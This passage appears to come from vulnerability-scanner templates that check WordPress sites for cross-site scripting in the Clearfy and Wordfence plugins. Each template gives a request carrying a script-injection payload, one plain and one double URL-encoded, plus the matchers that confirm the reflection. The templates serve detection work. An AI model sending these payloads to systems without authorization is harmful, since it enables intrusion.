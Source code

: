 ### Step - 2

```
GET /wp-admin/admin.php?page=gonzales-wbcr_clearfy&action=index&wbcr_assets_manager=1&a"><script>alert(1)</script> HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - word**

- part - body
- words
  1. ">\<script>alert(1)\</script>
  2. Webcraftic Clearfy - WordPress optimization plugin
- condition - and

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# Wordpress Wordfence - Cross-Site Scripting

## Description

- Wordpress Wordfence is vulnerable to cross-site scripting.
- severity - medium
- tags - wordpress,wordfence,xss,bypass

## Requests

- Method - GET

### URL

- {{BaseURL}}/?s=ax6zt%2522%253e%253cscript%253ealert%2528document.domain%2529%253c%252fscript%253ey6uu6

### Matchers

**Type - word**
